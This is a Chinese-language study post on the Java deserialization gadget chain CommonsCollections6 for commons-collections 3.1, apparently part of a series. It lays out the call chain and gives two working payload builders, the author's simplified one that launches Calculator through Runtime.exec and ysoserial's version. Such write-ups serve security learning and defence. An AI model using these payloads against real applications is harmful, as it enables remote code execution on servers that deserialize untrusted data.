 ```yaml
---
title: "Java反序列化利用链学习 - CommonCollection6"
date: 2022-05-05T14:21:00+08:00
lastmod: 2022-05-05T17:23:00+08:00
draft: false
lightgallery: true
categories: [
    "Java Security",
]
tags: [
    "deserialiaztion",
    "java",
    "common collection",
]
---
```

## Java反序列化利用链系列

* [Java反序列化利用链 - CommonCollection1](commoncollection1.md)
* [Java反序列化利用链 - CommonCollection2](commoncollection2.md)
* [Java反序列化利用链 - CommonCollection3](commoncollection3.md)
* [Java反序列化利用链 - CommonCollection4](commoncollection4.md)
* [Java反序列化利用链 - CommonCollection5](commoncollection5.md)
* [Java反序列化利用链 - CommonCollection6](commoncollection6.md)
* [Java反序列化利用链 - CommonCollection7](commoncollection7.md)

## Java反序列化利用链 - CommonCollection6

### 前置条件

* commons-collections 3.1

### 利用链分析

`CommonCollection6`利用链的调用过程大致如下：

```
Gadget chain:
    java.io.ObjectInputStream.readObject()
        java.util.HashSet.readObject()
            java.util.HashMap.put()
            java.util.HashMap.hash()
                org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
                org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
                    org.apache.commons.collections.map.LazyMap.get()
                        org.apache.commons.collections.functors.ChainedTransformer.transform()
                        org.apache.commons.collections.functors.InvokerTransformer.transform()
                            java.lang.reflect.Method.invoke()
                        org.apache.commons.collections.functors.InvokerTransformer.transform()
                            java.lang.reflect.Method.invoke()
                        org.apache.commons.collections.functors.InvokerTransformer.transform()
                            java.lang.reflect.Method.invoke()
                                java.lang.Runtime.exec()
```

这条链的前半部分`HashSet#readObject()->TiedMapEntry#getValue()`的过程并不复杂，不细说了。稍微复杂一点的地方在这条利用链的构造上（看`ysoserial`源码就知道了），如果直接通过构造构造函数来创建，会导致`writeObject`出现异常。这里我写了个简易版，但不保证通用性。

```java
public Object getObject(String command) throws Exception {
    Transformer[] falseTransformer = new Transformer[] {
            new ConstantTransformer(1)
    };
    Transformer[] trueTransformer = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod",
                    new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke",
                    new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec",
                    new Class[]{String.class}, new Object[]{"open /System/Applications/Calculator.app"})
    };

    ChainedTransformer chainedTransformer = new ChainedTransformer(falseTransformer);

    LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap(), chainedTransformer);

    TiedMapEntry tiedMapEntry = new TiedMapEntry(new HashMap<>(), 2);
    Reflections.setFieldValue(tiedMapEntry, "map", lazyMap);

    HashMap hashMap = new HashMap();
    hashMap.put(1, 1);
    Field table = Reflections.getField(hashMap.getClass(), "table");

    Object[] entry = (Object[]) table.get(hashMap);
    Reflections.setFieldValue(entry[1], "key", tiedMapEntry);

    HashSet hashSet = new HashSet();
    Reflections.setFieldValue(hashSet, "map", hashMap);

    Reflections.setFieldValue(chainedTransformer, "iTransformers", trueTransformer);

    return hashSet;
}
```

`ysoserial`中的相关代码如下

```java
public Serializable getObject(final String command) throws Exception {

    final String[] execArgs = new String[] { command };

    final Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {
                    String.class, Class[].class }, new Object[] {
                    "getRuntime", new Class[0] }),
            new InvokerTransformer("invoke", new Class[] {
                    Object.class, Object[].class }, new Object[] {
                    null, new Object[0] }),
            new InvokerTransformer("exec",
                    new Class[] { String.class }, execArgs),
            new ConstantTransformer(1) };

    Transformer transformerChain = new ChainedTransformer(transformers);

    final Map innerMap = new HashMap();

    final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

    TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");

    HashSet map = new HashSet(1);
    map.add("foo");
    Field f = null;
    try {
        f = HashSet.class.getDeclaredField("map");
    } catch (NoSuchFieldException e) {
        f = HashSet.class.getDeclaredField("backingMap");
    }

    Reflections.setAccessible(f);
    HashMap innimpl = (HashMap) f.get(map);

    Field f2 = null;
    try {
        f2 = HashMap.class.getDeclaredField("table");
    } catch (NoSuchFieldException e) {
        f2 = HashMap.class.getDeclaredField("elementData");
    }

    Reflections.setAccessible(f2);
    Object[] array = (Object[]) f2.get(innimpl);

    Object node = array[0];
    if(node == null){
        node = array[1];
    }

    Field keyField = null;
    try{
        keyField = node.getClass().getDeclaredField("key");
    }catch(Exception e){
        keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
    }

    Reflections.setAccessible(keyField);
    keyField.set(node, entry);

    return map;

}
```

## References

1. <https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections4.java>
